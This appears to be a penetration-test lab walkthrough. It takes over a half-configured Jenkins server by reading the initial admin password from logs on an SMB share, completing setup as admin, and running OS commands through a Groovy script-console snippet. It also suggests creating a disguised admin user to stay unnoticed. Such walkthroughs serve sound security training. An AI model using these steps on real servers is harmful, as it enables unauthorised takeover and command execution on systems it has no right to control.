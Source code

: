 +++
title = "Jenkins"
weight = 3
+++

## 1. First impressions
This Jenkins server appears to have been installed but never fully configured.
This is acctually common with software that ships with other software.

![](./jenkins1.png)

The web console tells us that there is an admin password written somewhere in a directory we don't have access to. 
However, it also mentions the file is written to the Jenkins log.  

## 2. Accessing the Jenkins dir from the SMB share
Connect back to the SMB share we accessed previously.  Take a look inside the Jenkins directory.
![](./jenkins2.png)

There appear to be three files with the *.log* extention.  Download them both.  Looking inside the err log file we can see 
the one-time admin password.

##### jenkins.err.log
```
2023-03-30 15:27:34.096+0000 [id=1]     WARNING o.e.j.s.handler.ContextHandler#setContextPath: Empty contextPath
2023-03-30 15:27:34.437+0000 [id=1]     INFO    org.eclipse.jetty.server.Server#doStart: jetty-10.0.13; built: 2022-12-07T20:13:20.134Z; git: 1c2636ea05c0ca8de1ffd6ca7f3a98ac084c766d; jvm 17.0.6+9-LTS-190
2023-03-30 15:27:38.030+0000 [id=1]     INFO    o.e.j.w.StandardDescriptorProcessor#visitServlet: NO JSP Support for /, did not find org.eclipse.jetty.jsp.JettyJspServlet
2023-03-30 15:27:38.499+0000 [id=1]     INFO    o.e.j.s.s.DefaultSessionIdManager#doStart: Session workerName=node0
2023-03-30 15:27:41.307+0000 [id=1]     INFO    hudson.WebAppMain#contextInitialized: Jenkins home directory: C:\ProgramData\Jenkins\.jenkins found at: EnvVars.masterEnvVars.get("JENKINS_HOME")
2023-03-30 15:27:41.725+0000 [id=1]     INFO    o.e.j.s.handler.ContextHandler#doStart: Started w.@31c269fd{Jenkins v2.387.1,/,file:///C:/ProgramData/Jenkins/war/,AVAILABLE}{C:\ProgramData\Jenkins\war}
2023-03-30 15:27:41.803+0000 [id=1]     INFO    o.e.j.server.AbstractConnector#doStart: Started ServerConnector@6591f517{HTTP/1.1, (http/1.1)}{0.0.0.0:8080}
2023-03-30 15:27:41.865+0000 [id=1]     INFO    org.eclipse.jetty.server.Server#doStart: Started Server@55ca8de8{STARTING}[10.0.13,sto=0] @12336ms
2023-03-30 15:27:41.881+0000 [id=25]    INFO    winstone.Logger#logInternal: Winstone Servlet Engine running: controlPort=disabled
2023-03-30 15:27:42.801+0000 [id=32]    INFO    jenkins.InitReactorRunner$1#onAttained: Started initialization
2023-03-30 15:27:43.068+0000 [id=32]    INFO    jenkins.InitReactorRunner$1#onAttained: Listed all plugins
2023-03-30 15:27:46.271+0000 [id=30]    INFO    jenkins.InitReactorRunner$1#onAttained: Prepared all plugins
2023-03-30 15:27:46.286+0000 [id=30]    INFO    jenkins.InitReactorRunner$1#onAttained: Started all plugins
2023-03-30 15:27:46.328+0000 [id=32]    INFO    jenkins.InitReactorRunner$1#onAttained: Augmented all extensions2023-03-30 15:27:47.506+0000 [id=31]    INFO    jenkins.InitReactorRunner$1#onAttained: System config loaded
2023-03-30 15:27:47.506+0000 [id=33]    INFO    jenkins.InitReactorRunner$1#onAttained: System config adapted
2023-03-30 15:27:47.506+0000 [id=33]    INFO    jenkins.InitReactorRunner$1#onAttained: Loaded all jobs
2023-03-30 15:27:47.506+0000 [id=33]    INFO    jenkins.InitReactorRunner$1#onAttained: Configuration for all jobs updated
2023-03-30 15:27:47.584+0000 [id=31]    INFO    jenkins.install.SetupWizard#init: 

*************************************************************
*************************************************************
*************************************************************

Jenkins initial setup is required. An admin user has been created and a password generated.
Please use the following password to proceed to installation:

f9d8aa****************321f63c6fa

This may also be found at: C:\ProgramData\Jenkins\.jenkins\secrets\initialAdminPassword

*************************************************************
*************************************************************
*************************************************************

2023-03-30 15:28:08.935+0000 [id=33]    INFO    jenkins.InitReactorRunner$1#onAttained: Completed initialization
2023-03-30 15:28:08.983+0000 [id=24]    INFO    hudson.lifecycle.Lifecycle#onReady: Jenkins is fully up and running
```

Here we can see the temporary admin password just as expected *f9d8aa\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*321f63c6fa*.

## 3. Finish setting up with the admin password
> :WARNING: *You should have full resolution screenshots with timestamps of every action you take to setup this Jenkins server*
>

* Enter the temporary admin password and click on the "**Continue**" button

![](./jenkins3.png)

* Click on the big "**Install suggested plugins**" button
![](./jenkins4.png)

* Once the installation wizard finishes select "**Skip and continue as admin**".  Alternitively you could create an admin user, maybe name it richard.f if you're trying to be sneaky.
![](./jenkins5.png)

* Nothing to do here just click on the "**Save and Finish**" button.
![](./jenkins6.png)

* Contratulations you are now the Jenkins administrator and this server is ready for use.  Click on "**Start using Jenkins**".
![](./jenkins7.png)

> :WARNING: *You should have full resolution screenshots with timestamps of every action you took to setup this Jenkins server*

Now that we have admin access to the Jenkins web console we can ensure that the script console is turned on. 
This will allow us to command the underlying operating system using whatever permissions this Jenkins server is currently 
running with.


## 4. Groovyscript OS command execution
With the script console enabled (it's enabled by default), executing OS commands is trivial using Groovyscript

* Navigate to **/script** and run the following Groovyscript snippet.


&nbsp;
##### Executing the Windows dir command from Groovyscript
```Java
def sout = new StringBuffer(), serr = new StringBuffer();
def proc = 'cmd.exe /c dir'.execute();
proc.consumeProcessOutput(sout, serr);
proc.waitForOrKill(1000);
println "out> $sout err> $serr"
```
![](./jenkins8.png)
